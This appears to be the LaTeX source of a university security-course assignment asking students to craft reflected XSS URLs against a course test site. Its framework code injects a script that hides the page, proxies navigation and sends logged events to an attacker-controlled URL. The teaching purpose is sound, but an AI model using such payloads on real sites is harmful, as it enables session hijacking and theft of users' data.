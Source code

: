 \documentclass[letterpaper,12pt]{report}
\newcommand{\firefox}{Firefox 44}
\newcommand{\jquery}{http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js}
\begin{document}
Your submission for each level of defense will be a text file with the specified filename that contains a single line consisting of a URL.  When this URL is loaded in a victim's browser, it should execute the specified payload against the specified target. The payload encoded in your URLs must be self-contained, but they may embed CSS and JavaScript.  Your payload may also load jQuery from the URL \url{\jquery}.  Make sure you test your solutions in \firefox, the browser we will use for grading.

\newpage

\subsection*{Framework Code}
You may build your XSS attacks by extending the following framework if you wish.

{\small\begin{verbatim}
<meta charset="utf-8">
<script src="http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>
<script>

// Extend this function:
function payload(attacker) {
    function log(data) { 
        console.log($.param(data))
        $.get(attacker, data);
    }
    function proxy(href) {
        $("html").load(href, function(){
            $("html").show();
            log({event: "nav", uri: href});
            $("#query").val("pwned!");
        }); 
    }
    $("html").hide();
    proxy("./");
}
	
function makeLink(xssdefense, target, attacker) {
    if (xssdefense == 0) {
        return target + "./search?xssdefense=" + xssdefense.toString() + "&q=" + 
            encodeURIComponent("<script" + ">" + payload.toString() +
            ";payload(\"" + attacker + "\");</script" + ">");
    } else {
        // Implement code to defeat XSS defenses here.
    }
}
	
var xssdefense = 0;
var target = "http://bungle.cs461.cs.illinois.edu/";
var attacker = "http://127.0.0.1:31337/stolen";
	
$(function() {
    var url = makeLink(xssdefense, target, attacker);
    $("h3").html("<a target=\"run\" href=\"" + url + "\">Try Bungle!</a>");
});
	
</script>
<h3></h3>
\end{verbatim}}

\newpage

\section*{Checkpoint 2: Submission Checklist}
 
\end{document}
